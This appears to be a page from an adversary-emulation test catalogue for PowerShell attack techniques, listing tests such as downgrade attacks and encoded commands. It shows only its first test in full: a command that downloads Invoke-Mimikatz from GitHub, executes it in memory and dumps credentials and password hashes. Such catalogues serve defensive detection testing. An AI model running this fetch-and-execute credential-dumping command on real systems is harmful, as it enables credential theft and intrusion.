 - [Atomic Test #12 - PowerShell Downgrade Attack](#atomic-test-12---powershell-downgrade-attack)

- [Atomic Test #13 - NTFS Alternate Data Stream Access](#atomic-test-13---ntfs-alternate-data-stream-access)

- [Atomic Test #14 - PowerShell Session Creation and Use](#atomic-test-14---powershell-session-creation-and-use)

- [Atomic Test #15 - ATHPowerShellCommandLineParameter -Command parameter variations](#atomic-test-15---athpowershellcommandlineparameter--command-parameter-variations)

- [Atomic Test #16 - ATHPowerShellCommandLineParameter -Command parameter variations with encoded arguments](#atomic-test-16---athpowershellcommandlineparameter--command-parameter-variations-with-encoded-arguments)

- [Atomic Test #17 - ATHPowerShellCommandLineParameter -EncodedCommand parameter variations](#atomic-test-17---athpowershellcommandlineparameter--encodedcommand-parameter-variations)

- [Atomic Test #18 - ATHPowerShellCommandLineParameter -EncodedCommand parameter variations with encoded arguments](#atomic-test-18---athpowershellcommandlineparameter--encodedcommand-parameter-variations-with-encoded-arguments)

- [Atomic Test #19 - PowerShell Command Execution](#atomic-test-19---powershell-command-execution)

- [Atomic Test #20 - PowerShell Invoke Known Malicious Cmdlets](#atomic-test-20---powershell-invoke-known-malicious-cmdlets)

- [Atomic Test #21 - PowerUp Invoke-AllChecks](#atomic-test-21---powerup-invoke-allchecks)


<br/>

## Atomic Test #1 - Mimikatz
Download Mimikatz and dump credentials. Upon execution, mimikatz dump details and password hashes will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** f3132740-55bc-48c4-bcc0-758a459cd027





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| mimurl | Mimikatz url | Url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
```
